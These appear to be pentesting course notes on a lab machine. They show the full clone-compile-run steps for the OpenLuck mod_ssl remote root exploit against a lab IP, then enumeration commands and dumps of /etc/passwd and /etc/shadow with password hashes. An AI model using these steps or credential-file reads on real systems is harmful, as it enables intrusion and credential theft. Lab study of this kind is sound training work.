

- Now we will gain the root access from manual exploitation and we already know that there is a vulnerability in
mod ssl.
- Will go to the openluck webpage (i.e. github) as the vulnerability code present in the exploit database is broken one.
- So will git clone it
command : git clone https://github.com/heltonWernik/OpenLuck.git
command : cd OpenLuck/
command : sudo apt-get install libssl-dev
command : gcc -o OpenFuck OpenFuck.c -lcrypto
command : ./OpenFuck
command : ./open 0x6b 192.168.142.129 -c 40

-Common Misconception or a thought process put out there by Certification's Company's (i.e. OSCP for example)
- Does not let us to use MetaSploit in exam only one instance of Metasploit is allowed.
- But according to Mentor MS is a more robust and best tool out there for penetration testers.
First thing to think about is ?
What is the IP address
- ifconfig
- ip a
Or could be looking for arp / routing Table so will be able to see with whom the machine is talking tooo.
- arp
- route
Will check if this machine is Dual Homed or not ??
- Will learn about that when we will get into Pivoting Sectionof the module.
- But if it has 2 nicks and we are around 1st network and the nick is on the 2nd network that we haven't seen before. So
will do something called Pivoting here and will move into the new network.
Will see the sudo privilege's
- but we are already root here
Will see the password file
- cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/var/spool/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/dev/null
rpm:x:37:37::/var/lib/rpm:/bin/bash
xfs:x:43:43:X Font Server:/etc/X11/fs:/bin/false
rpc:x:32:32:Portmapper RPC user:/:/bin/false
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/bin/false
ident:x:98:98:pident user:/:/sbin/nolcat /etc/passwd
ogin
radvd:x:75:75:radvd user:/:/bin/false
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
apache:x:48:48:Apache:/var/www:/bin/false
squid:x:23:23::/var/spool/squid:/dev/null
pcap:x:77:77::/var/arpwatch:/bin/nologin
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
- One thing to note is that User start from 500 and actually there are 2 users here (i.e. John and Harold)
- There used to password here in the passwd file but now it's only a placeholder.
cat /etc/shadow
root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
bin:*:14513:0:99999:7:::
daemon:*:14513:0:99999:7:::
adm:*:14513:0:99999:7:::
lp:*:14513:0:99999:7:::
sync:*:14513:0:99999:7:::
shutdown:*:14513:0:99999:7:::
halt:*:14513:0:99999:7:::
mail:*:14513:0:99999:7:::
news:*:14513:0:99999:7:::
uucp:*:14513:0:99999:7:::
operator:*:14513:0:99999:7:::
games:*:14513:0:99999:7:::
gopher:*:14513:0:99999:7:::
ftp:*:14513:0:99999:7:::
nobody:*:14513:0:99999:7:::
mailnull:!!:14513:0:99999:7:::
rpm:!!:14513:0:99999:7:::
xfs:!!:14513:0:99999:7:::
rpc:!!:14513:0:99999:7:::
rpcuser:!!:14513:0:99999:7:::
nfsnobody:!!:14513:0:99999:7:::
nscd:!!:14513:0:99999:7:::
ident:!!:14513:0:99999:7:::
radvd:!!:14513:0:99999:7:::
postgres:!!:14513:0:99999:7:::
apache:!!:14513:0:99999:7:::
squid:!!:14513:0:99999:7:::
pcap:!!:14513:0:99999:7:::
john:$1$zL4.MR4t$26N4YpTGceBO0gTX6TAky1:14513:0:99999:7:::
harold:$1$Xx6dZdOd$IMOGACl3r757dv17LZ9010:14513:0:99999:7:::